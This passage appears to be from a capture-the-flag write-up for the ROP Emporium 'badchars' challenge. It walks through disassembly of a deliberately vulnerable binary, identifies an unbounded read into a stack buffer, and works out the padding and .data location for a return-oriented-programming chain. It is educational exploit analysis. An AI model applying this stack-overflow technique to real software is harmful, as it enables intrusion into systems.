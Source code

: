 ```asm
   0x00007ffff7dc593f <+69>:    add    rax,0x20
   0x00007ffff7dc5943 <+73>:    mov    edx,0x20
   0x00007ffff7dc5948 <+78>:    mov    esi,0x0
   0x00007ffff7dc594d <+83>:    mov    rdi,rax
   0x00007ffff7dc5950 <+86>:    call   0x7ffff7dc57b0 <memset@plt>
   ...
   0x00007ffff7dc5972 <+120>:   lea    rax,[rbp-0x40]
   0x00007ffff7dc5976 <+124>:   add    rax,0x20
   0x00007ffff7dc597a <+128>:   mov    edx,0x200
   0x00007ffff7dc597f <+133>:   mov    rsi,rax
   0x00007ffff7dc5982 <+136>:   mov    edi,0x0
   0x00007ffff7dc5987 <+141>:   call   0x7ffff7dc57c0 <read@plt>
   ...
   0x00007ffff7dc5a04 <+266>:   nop
   0x00007ffff7dc5a05 <+267>:   leave  
   0x00007ffff7dc5a06 <+268>:   ret    
End of assembler dump.
```
Note that:
- There's a ```lea rax,[rbp-0x40]; add rax,0x20``` instruction before the memset and read operation, so the address where the input string will be placed is from `[rbp-0x20]`.
- No bound checking is done for the input string, so we can override the `rsp` register to modify as we want the flow of execution of this program.
- The `leave` instruction does `mov rsp, rbp; pop rbp` and the `ret` a `add rsp, 0x8`.

Given this assumptions, the payload must contain a padding of length `0x20 + 0x8` bytes and after that the sequence of the desired gadgets.

Now, let's disassble `usefulFunction`:
```asm
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006c4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
```

`usefulFunction` inform us that `print_file` reads the string in the address pointed by `edi` register.
Furthermore, we'll need the `call` instruction address in the ROP chain to finally invoke that function.

At this point where it's known the payload's padding and the register that we must set before calling `print_file`, it's necessary to understand how to place the string into memory.

```sh
$ readelf --sections badchars 
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
   ...
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  ...
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```